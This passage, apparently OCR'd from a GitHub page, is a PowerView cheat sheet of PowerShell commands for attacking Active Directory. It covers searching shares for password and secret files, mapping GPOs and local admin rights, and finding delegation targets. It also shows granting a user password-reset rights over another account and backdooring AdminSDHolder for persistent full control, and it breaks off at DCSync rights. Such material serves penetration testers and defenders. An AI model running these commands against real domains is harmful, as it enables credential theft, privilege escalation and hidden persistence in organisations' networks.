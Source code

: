 ```powershell
$Password="PASSWORD"|ConvertTo-SecureString -AsPlainText -Force; $Credential=New-Object System.Management.Automation.PSCredential("CORP\user",$Password); Find-InterestingDomainShareFile -Domain CORP -Credential $Credential
```
- Recursively search a specific UNC path for keywords, Office docs, and last-access time.
```powershell
Find-InterestingFile -Path \\SERVER\Share -Include password,creds,secret -OfficeDocs -LastAccessTime (Get-Date).AddDays(-7)
```

GPOs, GP links, access mapping
- List all GPOs in the domain.
```powershell
Get-DomainGPO
```
- List OUs and their GPO links.
```powershell
Get-DomainOU -GPLink | Select-Object Name,gplink
```
- List policies applied to a specific computer.
```powershell
Get-DomainGPO -ComputerIdentity WS01.corp.local
```
- Map where a user/group has local group rights via GPO (old Find-GPOLocation).
```powershell
Get-DomainGPOUserLocalGroupMapping -Identity "CORP\Helpdesk"
```
- Check RDP group mapping for a user in a domain.
```powershell
Get-DomainGPOUserLocalGroupMapping -Identity "CORP\user" -Domain corp.local -LocalGroup RDP
```
- Export a CSV of GPO mappings with flattened computer arrays.
```powershell
Get-DomainGPOUserLocalGroupMapping | % { $_.computers = ($_.computers -join ", "); $_ } | Export-Csv -NoTypeInformation gpo_map.csv
```

Delegation reconnaissance
- Users with constrained delegation configured.
```powershell
Get-DomainUser -TrustedToAuth
```
- Computers with constrained delegation configured.
```powershell
Get-DomainComputer -TrustedToAuth
```
- Admin-protected users who are allowed to be delegated (interesting).
```powershell
Get-DomainUser -AllowDelegation -AdminCount
```

ACLs, DCSync rights, AdminSDHolder, backdooring
- Enumerate who has rights over a target object (resolve GUIDs).
```powershell
Get-DomainObjectAcl -Identity matt -ResolveGUIDs -Domain testlab.local
```
- Grant “will” the right to reset “matt”’s password.
```powershell
Add-DomainObjectAcl -TargetIdentity matt -PrincipalIdentity will -Rights ResetPassword -Verbose
```
- Read AdminSDHolder permissions (resolve GUIDs).
```powershell
Get-DomainObjectAcl -SearchBase 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -ResolveGUIDs
```
- Backdoor AdminSDHolder to grant “matt” full rights to protected objects.
```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -PrincipalIdentity matt -Rights All
```
- Identify principals with replication (DCSync) or full control (domain DN path).